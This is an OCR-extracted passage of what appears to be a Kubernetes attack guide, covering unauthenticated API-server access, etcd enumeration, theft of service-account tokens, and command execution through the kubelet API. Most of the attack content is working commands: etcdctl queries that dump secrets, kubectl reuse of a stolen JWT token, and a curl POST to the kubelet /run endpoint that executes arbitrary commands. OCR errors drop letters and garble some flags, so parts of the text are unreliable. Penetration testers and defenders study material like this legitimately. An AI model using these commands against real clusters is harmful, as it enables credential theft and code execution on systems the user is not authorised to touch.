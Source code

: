 5. Exploiting Misconfigured API Servers

```bash 
kubectl get po -n kube-system
Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:default:default" cannot list resource "pods" in API group "" in the namespace "kube-system"
kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://10.0.200.18:443 get pod -n kube-system
```

6. Attacking etcd
- etcd Information Discovery
```bash curl -k https://10.0.200.18:2379/version
curl: (35) error:14094412:SSL routines:ssl3_read_bytes:sslv3 alert bad certificate
```
- Exploiting Misconfigured etcd Servers

```bash
etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://10.0.200.18:2379 get / --prefix --keys-only
```

```bash 
etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://10.0.200.18:2379 get /registry/secrets/kube-system/daemon-set-controller-token-[RAND]

Error: context deadline exceeded
```

- The area in the previous line that says [RAND] will be a set of five alphanumeric characters that vary per installation. This will return the service account token information. There are some  onprintable characters in the output that are a result of how the data is stored in etcd , but it is possible to extract the important value, which will start ey.... This is a JWT token that  an then be used when communicating using kubectl , for example:
```bash 
kubectl --token="[TOKEN]" -s https://10.0.200.18:6443 --insecure-skip-tls-verify get po -n kube-system
```

7. Attacking the Kubelet
- Exploiting Misconfigured Kubelets 
```bash 
curl https://[IP]:10250/run/[namespace]/[pod name]/[container name] -k -XPOST -d "cmd=[command]"
```
This will execute the command as the user running the pod; it’s the equivalent of using kubectl exec to execute a command in a running container. To make use of commands similar to the  revious, the following information can be filled in to requests to the API:  [namespace] The Kubernetes namespace of the pod [pod name] The name of the pod the container belongs to [container  ame] The name of the container to execute the command in [command] The name of the command to be run The kubelet has other available endpoints that can be used, if they have been made available  nauthenticated or an attacker has been able to get valid credentials for the kubelet. As an alternative to manual exploitation, Cyberark released a tool called kubeletctl ( github. om/cyberark/kubeletctl ) that can automate the process of using the kubelet API.

8. Attackers - External Checklist
- External attackers are typically looking for listening services. The list below is likely container related service ports and notes on testing/attacking them.
